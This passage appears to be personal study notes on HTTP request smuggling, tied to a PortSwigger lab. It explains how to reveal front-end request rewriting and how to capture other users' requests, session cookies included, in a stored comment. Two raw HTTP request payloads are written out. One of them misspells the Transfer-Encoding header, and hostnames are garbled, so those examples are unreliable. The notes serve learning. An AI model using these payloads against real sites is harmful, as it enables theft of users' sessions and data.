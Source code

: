 ```js
x-nr-external-service: external etc"
```

#### NOTE
Since the final request is being rewritten, you don't know how long it will end up. The value in the `Content-Length` header in the smuggled request will determine how long the back-end server believes the request is. If you set this value too short, you will receive only part of the rewritten request; if you set it too long, the back-end server will time out waiting for the request to complete. Of course, the solution is to guess an initial value that is a bit bigger than the submitted request, and then gradually increase the value to retrieve more information, until you have everything of interest.
[lab portswigger](https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting)

## Capturing Other User's Requests
- if the application contains's any kind of functionality that allows textual data to be stored and retrieved, then `HTTP request smuggling` used to capture the content's of other users request.
- this will likely include `session token`, and `other sensitive information submitted by the user`, suitable functions to use as the vehicle for this attack would be `comments,emails, profile description, screen names ` etc
- TO perform the attack, we need to smuggle a request that submits data to the `storage function`,  with the parameter containing the data positioned last in the request.
- the next request is processed by the `back-end` will be appended to the smuggled request with the result that the other user's raw request gets stored.
`Example:` suppose an application uses the following request to submit a blog comment, which will be stored and displayed on the blog
```js
POST /post/comment HTTP/1.1
Host: vuln-wen=b.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 153
Cookie: session=qwertsg6rtrq5bt54rfe

csrf=kshtb934wy8rbhcq2liwtrgb&postId=2&comment=my-comment&name=myname&email=dk@hello.net&website=https://normal.com
```
here we perform request smuggling Attack which smuggle the data storage request to the `back-end` server
```js
GET / HTTP/1.1
Host: vuln-web.xom
Transfer-Emcoding: chunked
Content-Length: 324


0


POST /post/comment HTTP/1.1
Host: vuln-web.xom
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=sajkag7wryfb34wliue

csrf=v45b8qyl8yerih3nlewir&postId=2&name=dk&email=dk@dk.net&website=https://helo.net&comment=
```
here the victims request stored to the comment section of attacker.
